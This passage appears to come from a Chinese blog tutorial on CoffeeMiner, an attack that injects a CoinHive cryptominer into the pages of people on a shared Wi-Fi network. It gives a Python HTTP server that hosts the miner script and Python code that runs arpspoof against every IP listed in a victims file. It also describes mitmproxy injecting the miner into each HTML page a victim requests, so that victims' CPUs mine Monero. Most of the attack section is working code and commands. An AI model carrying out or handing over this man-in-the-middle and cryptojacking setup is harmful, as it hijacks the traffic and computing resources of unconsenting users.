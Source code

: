 ## HTTP Server
如前所述，当injector向html页面中添加了一行代码后，就会调用JavaScript挖矿脚本，所以，需要在HTTP服务器中部署该脚本文件。而为了实现该脚本的请求调用，须在测试者电脑中部署一个HTTP服务器，为此，我们要用到Python的‘http.server’库功能：

{% codeblock lang:python %}
#!/usr/bin/env python
import http.server
import socketserver
import os
PORT = 8000
web_dir = os.path.join(os.path.dirname(__file__), 'miner_script')
os.chdir(web_dir)
Handler = http.server.SimpleHTTPRequestHandler
httpd = socketserver.TCPServer(("", PORT), Handler)
print("serving at port", PORT)
httpd.serve_forever()
{% endcodeblock %}

上面的代码就是一个托管挖矿服务的简单HTTP服务器，其中托管脚本会被放置在/miner_script目录下，为了实现真正的挖矿，我在此使用了CoinHive的JavaScript挖矿平台工具。

**CoinHive挖矿工具**
Coinhive其实是一个门罗币挖矿工具，它可以嵌入被测试者控制的肉鸡网站上，每当用户访问该网站时，用户CPU资源就会被占用，用来计算CryptoNote协议相关的加密货币哈希值，用户电脑也就间接沦为了测试者的“矿工”。

Coinhive挖矿工具的执行，要在受害者打开页面40秒后才能开始，所以，如果受害者浏览页面时间不足40秒，Coinhive的挖矿任务失效。本例中，我会在受害者请求的每个html页面中注入挖矿脚本，所以时间上肯定足够。
![](/pictures/CoffeeMiner/8.jpg)

## CoffeeMiner代码组合
等所有条件准备好之后，我们就可以在某个WIFI环境中进行隐蔽部署了，现在我们来看看CoffeeMiner的实现。
CoffeeMiner脚本会执行ARP欺骗，并能用mitmproxy将CoinHive 挖矿程序注入受害者请求的html页面中。
首先，为了把测试者主机转化为中间代理，需要对ip_forwarding和IPTABLES进行配置：

![](/pictures/CoffeeMiner/9.png)

为了对所有受害者执行ARP欺骗，我会使用一些Python代码来读取所有受害者IP，并用一个名为‘victims.txt’的文件来存储这些IP，之后再对这些IP执行ARP欺骗：

{% codeblock lang:python %}
#get gateway_ip
gateway = sys.argv[1]
print("gateway: " + gateway)
#get victims_ip
victims = [line.rstrip('\n') for line in open("victims.txt")]
print("victims:")
print(victims)
#run the arpspoof for each victim, each one in a new console
for victim in victims:
    os.system("xterm -e arpspoof -i eth0 -t " + victim + " " + gateway + " &")
    os.system("xterm -e arpspoof -i eth0 -t " + gateway + " " + victim + " &")
{% endcodeblock %}

一旦ARP欺骗操作发起后，运行HTTP服务器即可：
>python3 httpServer.py

